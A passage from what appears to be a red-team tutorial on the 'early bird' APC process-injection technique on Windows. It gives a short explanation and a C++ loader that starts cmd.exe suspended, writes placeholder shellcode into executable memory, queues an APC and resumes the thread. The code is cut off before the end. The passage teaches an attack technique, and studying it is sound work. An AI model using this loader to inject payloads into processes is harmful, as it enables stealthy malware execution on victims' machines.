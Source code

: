 The downside with the APC method is that there's no guarantee that the selected thread will become alertable, and therefore the shellcode will not run.  You could queue an APC on every thread in the process, but that would almost certainly lead to a crash.  The 'early bird' technique gets around this by spawning a new process in a suspended state, queuing the APC on its primary thread, then resuming the process.  This way, the APC is guaranteed to trigger.

```c++
#include <Windows.h>

int main()
{
    unsigned char shellcode[] = "...";

    STARTUPINFOW si = { 0 };
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;

    PROCESS_INFORMATION pi = { 0 };

    // spawn process in suspended state
    CreateProcess(
        L"C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        L"C:\\Windows\\System32",
        &si,
        &pi
    );

    // allocate a region of memory
    auto hMemory = VirtualAllocEx(
        pi.hProcess,    // handle to newly spawned process
        NULL,
        sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );

    // write the shellcode into memory
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        pi.hProcess,
        hMemory,
        &shellcode,
        sizeof(shellcode),
        &bytesWritten
    );

    // queue the apc
    QueueUserAPC(
        (PAPCFUNC)hMemory,
        pi.hThread,
        0
    );

    // resume the process
    ResumeThread(pi.hThread);

    // tidy up our handles
    CloseHandle(pi.hThread);
```